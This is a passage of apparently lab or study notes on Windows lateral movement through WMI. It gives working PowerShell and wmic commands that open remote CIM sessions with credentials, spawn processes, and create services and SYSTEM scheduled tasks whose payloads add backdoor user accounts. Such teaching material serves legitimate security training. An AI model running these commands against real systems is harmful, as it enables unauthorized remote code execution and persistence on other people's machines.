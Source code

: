 ```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
where `New-CimSession` creates session and `New-CimSessionOption` used to configure the wmi connection
#### Remote Process Creation Using WMI
We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```
Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:
```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```
#### Creating Services Remotely with WMI
We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```
#### Creating Scheduled Tasks Remotely with WMI
We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:
```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
#### Installing MSI packages through WMI
MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us by invoking the Win32_Product class through WMI: